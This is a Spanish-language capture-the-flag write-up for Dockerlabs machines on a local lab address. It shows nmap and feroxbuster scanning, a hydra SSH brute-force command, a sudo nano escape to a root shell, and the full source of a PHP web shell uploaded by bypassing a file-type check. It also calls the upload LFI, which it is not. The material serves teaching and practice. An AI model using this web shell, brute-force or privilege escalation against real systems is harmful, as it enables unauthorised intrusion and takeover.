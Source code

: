 Mirando http://172.17.0.2/backend/server.js encuentro: 

![](Imágenes/Pasted%20image%2020240813173838.png)

Uso hydra para buscar un username que se corresponda a esa contraseña para entrar por ssh. Como se cambió el puerto al 5000: 
```
hydra -L /usr/share/wordlists/rockyou.txt  -p lapassworddebackupmaschingonadetodas ssh://172.17.0.2:5000 -t 64
```

Encuentro el usuario `lovely`: 
![](Imágenes/Pasted%20image%2020240813175722.png)

Con sudo -l veo que puedo ejecutar nano como superusuario, por lo que haciendo lo siguiente (https://gtfobins.github.io/gtfobins/nano/#sudo) me convierto en root:

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![](Imágenes/Pasted%20image%2020240813175932.png)


# Dockerlabs
Fecha: 13/08/2024

Comienzo haciendo nmap, veo solo un apache no vulnerable en el 80.

```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

Hago fuzzing y encuentro varias páginas: 

```
feroxbuster -u http://172.17.0.2 -x php -x html -x txt -x js -x py -w /usr/share/wordlists/directory-list-2.3-medium.txt -o fuzzing --threads 300 
```

![](Imágenes/Pasted%20image%2020240813180751.png)
En http://172.17.0.2/machine.php encuentro que puedo subir archivos. Por tanto, intentaré un #LFI (Local File Inclusion). Pruebo con un txt y veo que solo me deja subir .zips. Interceptaré la petición con burpsuite para engañarle y subir algún archivo .php. Por lo que he visto en otros writeups, esto se llama `Arbitrary File Upload`


```
# Creo un php con el que podré ejecutar comandos remotas: 
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
